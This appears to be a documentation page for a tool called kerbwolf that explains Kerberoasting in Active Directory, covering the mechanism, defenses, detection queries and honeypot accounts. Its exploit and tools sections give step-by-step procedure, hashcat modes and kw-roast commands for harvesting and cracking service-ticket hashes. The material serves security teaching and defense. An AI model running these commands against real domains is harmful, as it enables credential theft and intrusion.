

---
---

# Kerberoasting (TGS-REP Roasting)

Kerberoasting is an offline password-cracking attack that targets **user service accounts** — user objects (objectCategory=person) with manually registered SPNs and human-set passwords. Any authenticated domain user can request a service ticket for any Service Principal Name (SPN), and the encrypted portion of that ticket can be cracked offline to recover the user service account's password.

## How It Works

The attack exploits a fundamental property of the TGS exchange: the `enc-part` of a service ticket is encrypted with the long-term key of the service account that owns the SPN. The KDC does not check whether the requesting user has permission to access the service -- it simply issues the ticket. Per [RFC 4120 &sect;5.3], the ticket's `enc-part` is encrypted with the server principal's secret key, and per [MS-KILE &sect;3.3.5.7], the encryption type is determined by `msDS-SupportedEncryptionTypes` on the target account.

The attack flow:

1. An authenticated user sends a **TGS-REQ** to the KDC, specifying the SPN of the target service (e.g., `MSSQLSvc/db01.corp.local:1433`).
2. The KDC looks up the account that owns that SPN, constructs a service ticket, and encrypts the ticket's `enc-part` with that account's long-term key.
3. The KDC returns the **TGS-REP** containing the service ticket. The requesting user receives the full ticket, including the encrypted portion.
4. The attacker extracts the cipher bytes from the ticket's `enc-part` and attempts to crack them offline.

The critical factor is encryption type. When the target account uses **RC4-HMAC** (etype 23), the encryption key is simply the MD4 hash of the password -- no salt, no key stretching. This makes RC4 tickets roughly **800 times faster to crack** than AES-256 tickets, which derive the key through 4096 iterations of PBKDF2 with a realm+principal salt.



### Why Computer Accounts and Managed Service Accounts Are Not Viable Targets

Computer account passwords are 120 random UTF-16 characters (240 bytes), automatically rotated every 30 days.  gMSA passwords are 240 characters of cryptographic random material, also auto-rotated.  MSA and dMSA passwords follow the same auto-rotation model.  None of these are crackable.

Kerberoasting is only practical against **user service accounts** — accounts whose passwords are set by humans and therefore subject to dictionary and brute-force attacks.

That said, `msDS-SupportedEncryptionTypes = 0x18` should be set on all SPN-bearing account types.  Even though managed service account passwords are uncrackable, RC4-encrypted tickets are still generated if the attribute is absent — contributing unnecessary RC4 traffic and complicating audit baselines.

### No-Preauth Variant

If the attacker knows an account with `DONT_REQUIRE_PREAUTH` set (UAC bit `0x400000`), they can Kerberoast without any domain credentials. The attacker sends an AS-REQ for the no-preauth account, receives a TGT, and uses it to request service tickets -- all without knowing any password. kerbwolf implements this via `kw-roast --no-preauth`.

### LDAP Discovery

Kerberoastable accounts can be enumerated via LDAP with this filter:

```text
(&(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2))(!(objectCategory=computer)))
```

This finds all enabled user accounts (excluding computers) that have at least one SPN registered.

---

## Defend

### Use Group Managed Service Accounts (gMSA)

gMSA passwords are 128 random UTF-16 characters (256 bytes), automatically rotated by Active Directory. They are immune to offline cracking. Every user service account that supports gMSA should be migrated.

```powershell
# Create a gMSA
New-ADServiceAccount -Name svc_sql -DNSHostName svc_sql.corp.local `
  -PrincipalsAllowedToRetrieveManagedPassword "SQLServers"
```

### Enforce AES Encryption on SPN-Bearing Accounts

Set `msDS-SupportedEncryptionTypes = 0x18` (AES128 + AES256, no RC4) on all manually-managed SPN-bearing accounts: user service accounts, gMSA, MSA, and dMSA.  This forces the KDC to issue AES-encrypted tickets, which are dramatically harder to crack.  Computer accounts are managed automatically by GPO.

```powershell
# Set AES-only encryption on a user service account
Set-ADUser svc_sql -Replace @{'msDS-SupportedEncryptionTypes' = 24}
```

For per-type bulk queries covering all five account types, see the
[SPN-bearing account type taxonomy](../../security/msds-supported.md#spn-bearing-account-types).

!!! warning "Before the November 2022 security updates (KB5021131, CVE-2022-37966), the KDC would honor the client's etype preference and issue RC4 tickets even when the target account supported AES. After the update, the KDC returns the strongest etype the target account supports regardless of the client's request. See [msDS-SupportedEncryptionTypes](../../security/msds-supported.md) for details."

### Enforce AES via Group Policy

Configure the domain to reject RC4 entirely via Group Policy. See [RC4 Deprecation](../../security/rc4-deprecation.md) for the specific settings.

!!! info "The April 2026 Windows updates enable RC4 enforcement by default, blocking RC4 for Kerberos ticket encryption (CVE-2026-20833). The July 2026 updates make this permanent with no rollback option. Environments that have not prepared will experience authentication failures starting April 2026."

### Strong Passwords for User Service Accounts

Any user service account must have a password of at least 25 characters, randomly generated.

### Remove SPNs from Privileged Accounts

No account that is a member of Domain Admins, Enterprise Admins, or other privileged groups should have an SPN. Audit regularly:

```powershell title="Find privileged accounts with SPNs registered"
Get-ADUser -Filter 'servicePrincipalName -ne "$null"' -Properties servicePrincipalName, MemberOf |
  Where-Object { $_.MemberOf -match 'Domain Admins|Enterprise Admins' }
```

### Protected Users Group

Adding accounts to the Protected Users group forces AES for pre-authentication and reduces TGT lifetime to 4 hours. However, **Protected Users does not prevent Kerberoasting**. The TGS exchange uses the target account's key, not the requesting user's, so the encryption type of the service ticket is determined by the target account's `msDS-SupportedEncryptionTypes`, not the requester's group membership.

---

## Detect

### Event ID 4769 with RC4 Encryption

The most reliable detection signal is a Kerberos service ticket request (Event ID 4769) where `Ticket Encryption Type = 0x17` (RC4-HMAC). In modern environments where AES is the norm, RC4 service tickets are anomalous.

```text
index=security EventCode=4769 TicketEncryptionType=0x17
| stats count by ServiceName, IpAddress
| where count > 3
```

### Kdcsvc Events 201/202

Starting with the January 2026 Windows updates, the KDC logs new events 201 and 202 under specific conditions. Event 201 fires when the client advertises only RC4 in its TGS-REQ **and** the target account has no explicit `msDS-SupportedEncryptionTypes` set. Event 202 fires when the target account lacks AES keys **and** has no explicit `msDS-SupportedEncryptionTypes` set. Both events are logged to the `System` log under source `Kdcsvc` and include the requesting user, target SPN, and encryption type.

### Volume-Based Detection

A single user requesting service tickets for dozens of SPNs in rapid succession is anomalous. Baseline normal TGS-REQ volume per user and alert on significant deviations.

```text
index=security EventCode=4769
| bin span=5m _time
| stats dc(ServiceName) as unique_spns by IpAddress, _time
| where unique_spns > 10
```

### Honeypot SPN Accounts

Create fake user service accounts with SPNs that no legitimate service uses. Set a long, uncrackable password. Any 4769 event for these SPNs indicates Kerberoasting activity.

!!! tip "Give the honeypot account a name that looks attractive to an attacker: `svc_backup_admin`, `svc_sql_prod`, or similar. Set `adminCount=1` and add a description referencing a real server to make it appear high-value during LDAP enumeration."

### Monitor LDAP Queries

Watch for LDAP searches with `servicePrincipalName=*` wildcard filters from non-administrative accounts. This is the reconnaissance step that precedes Kerberoasting.

---

## Exploit

The attack procedure, step by step:

### 1. Authenticate to the Domain

Obtain a TGT using a domain account's password, NT hash, or an existing ccache file. Any domain user works.

### 2. Enumerate SPN Accounts via LDAP

Query Active Directory for user accounts with `servicePrincipalName` set. The LDAP filter above returns all enabled, non-computer accounts with SPNs.

### 3. Request Service Tickets

For each target SPN, send a TGS-REQ to the KDC. The KDC returns a service ticket encrypted with the target account's key. Specify RC4 (etype 23) in the request to maximize cracking speed, though modern DCs may ignore this preference.

### 4. Extract Cipher Bytes

Parse the TGS-REP and extract the `enc-part` cipher from the service ticket. This is the encrypted data that contains the session key and authorization data, encrypted with the target account's long-term key.

### 5. Format as Hashcat Hash

Format the extracted data for offline cracking:

| Encryption Type | Hashcat Mode | Hash Format |
|-----------------|-------------|-------------|
| RC4-HMAC (etype 23) | 13100 | `$krb5tgs$23$*user$realm$spn*$<first16>$<remaining>` |
| AES128 (etype 17) | 19600 | `$krb5tgs$17$user$realm$*spn*$<checksum>$<edata>` |
| AES256 (etype 18) | 19700 | `$krb5tgs$18$user$realm$*spn*$<checksum>$<edata>` |

### 6. Crack with Wordlist and Rules

```bash title="Crack Kerberoast hashes with wordlist and rules"
# RC4 tickets (~800x faster)
hashcat -m 13100 hashes.txt wordlist.txt -r rules/best64.rule

# AES256 tickets (much slower, but still possible with weak passwords)
hashcat -m 19700 hashes.txt wordlist.txt -r rules/best64.rule
```

---

## Tools

### kerbwolf: kw-roast

`kw-roast` handles the full Kerberoasting workflow: authentication, optional LDAP discovery, TGS-REQ construction, and hash extraction.

#### LDAP Discovery with Password Authentication

```bash
kw-roast -d CORP.LOCAL --dc-ip 10.0.0.1 -u admin -p 'Password1!' --ldap
```

Authenticates with NTLM credentials, queries LDAP for SPN-bearing accounts, requests a service ticket for each, and outputs hashcat-format hashes to stdout.

#### Kerberos Authentication with CCache

```bash
kw-roast -k -c admin.ccache --ldap
```

Uses an existing TGT from a ccache file. Domain and DC are auto-detected from the ccache. Useful when you have a TGT from `kw-tgt` or another tool.

#### No-Preauth Mode (No Credentials Needed)

```bash
kw-roast -d CORP.LOCAL --dc-ip 10.0.0.1 --no-preauth vuln_user -t svc_sql
```

Uses a `DONT_REQUIRE_PREAUTH` account (`vuln_user`) to obtain a TGT via AS-REQ without credentials, then requests a service ticket for `svc_sql`. No domain password or hash required.

#### Request RC4 Tickets Specifically

```bash
kw-roast -d CORP.LOCAL --dc-ip 10.0.0.1 -u admin -p 'Password1!' --ldap -e rc4
```

Explicitly requests RC4-encrypted tickets via the etype field in TGS-REQ. Whether the DC honors this depends on the DC version and the target account's `msDS-SupportedEncryptionTypes`.

#### AES256 with John Output Format

```bash
kw-roast -d CORP.LOCAL --dc-ip 10.0.0.1 -u admin -p pass -t MSSQLSvc/db01 -e aes256 --format john
```

#### Save Hashes to File

```bash
kw-roast -d CORP.LOCAL --dc-ip 10.0.0.1 -u admin -p 'Password1!' --ldap -o hashes.txt
```

### Other Tools

| Tool | Platform | Notes |
|------|----------|-------|
| Impacket `GetUserSPNs.py` | Linux | Python-based, supports `-no-preauth` via fork |
| Rubeus `kerberoast` | Windows | .NET, runs in-memory, supports `/tgtdeleg` for RC4 downgrade |
| Mimikatz `kerberos::ask` | Windows | Requests TGS tickets and exports to kirbi files |
